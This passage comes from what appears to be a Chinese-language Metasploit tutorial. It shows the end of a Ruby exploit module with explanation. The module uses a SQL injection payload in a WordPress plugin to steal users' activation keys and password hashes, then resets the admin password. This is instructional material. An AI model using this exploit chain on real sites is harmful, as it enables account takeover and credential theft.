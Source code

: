 ```
      #Bypassing the Password Cracking Technique Using Activation Key
      req4= "/wordpress/wordpress/wp-login.php?action=resetpass&key=#{acti}&login=#{userinfo}"
      res4 = send_request_cgi(
                        {
                                'uri'       => req4,
                                'method'    => 'POST',
                                'cookie'    => "wordpress_test_cookie=#{u_cookie}",
                                'vars_post' =>
                                        {
                                                'pass1'     => "12345",
                                                'pass2' => "12345",
                                                'wp-submit' =>"Reset+Password"
                                        }
                        })
      #Check For New Hash Password
      req5="/wordpress/wordpress/wp-content/plugins/webplayer/config.php?id=-1213%20UNION%20ALL%20SELECT%20NULL%2C%28SELECT%20CONCAT%280x3a7a74783a%2CIFNULL%28CAST%28user_activation_key%20AS%20CHAR%29%2C0x20%29%2C0x656e63726e6c%2CIFNULL%28CAST%28user_login%20AS%20CHAR%29%2C0x20%29%2C0x656e63726e6c%2CIFNULL%28CAST%28user_pass%20AS%20CHAR%29%2C0x20%29%2C0x3a77786e3a%29%20FROM%20wordpress.wp_users%20LIMIT%200%2C1%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%23"
                        res5 = send_request_raw({'uri' => req5, 'method' => 'GET' })
                        g5= (res5.body =~ /admin/)
                        ver5= res5.body[g5,5]
                        nn5=(res5.body =~ /[$]P/)
      pass5=res5.body[nn5,34]
      print_line("[+]New Hash: #{pass5}")
      print_line("[+]Reset Done")
      sleep(1)

  end
  end

end
```

我们创建了另一个 SQL 注入请求，只获取用户名和激活密钥，这是在`req3`变量中指定的。我们将此请求作为`GET`发送给该方法，并将结果存储在`res3`中。

现在，继续使用搜索响应的相同方法，我们从响应中找到字符串`videoid`，从那里我们精确地跳转到激活键的开头 13 个字符。然后，我们在`acti`变量中获取键的 20 个字符。

我们用同样的方法查找用户名，就像我们以前在第一个请求本身中所做的那样，并将结果存储在名为`userinfo`的变量中。

现在，我们只需打印出找到的激活密钥和与之关联的用户名。接下来，我们创建另一个请求在重置页面上发布数据，该页面位于`/wordpress/wordpress/wp-login.php?action=resetpass&key=found_key_from_sql_injection&login=found_username`。WordPress 有一个限制，如果我们有激活密钥，我们可以简单地将其放入请求的 URL 并直接转到重置密码页面。

在`req4`变量中，使用我们之前获得的激活密钥和用户名创建一个 URI，然后在`vars_post`参数中`POST`两次输入新密码。

接下来，我们创建另一个名为`req5`的查询，我们只需以散列格式查找用户名及其关联的密码，看看它是否已成功更改。

您可能想知道为什么该模块只对管理员用户有效，而对其他用户无效。这是因为这个利用漏洞的练习只是为了熟悉各种 HTTP 函数。此外，本练习还向我们展示了如何设置各种参数并将值传递给各种基于 HTTP 的函数。

## 试验辅助漏洞
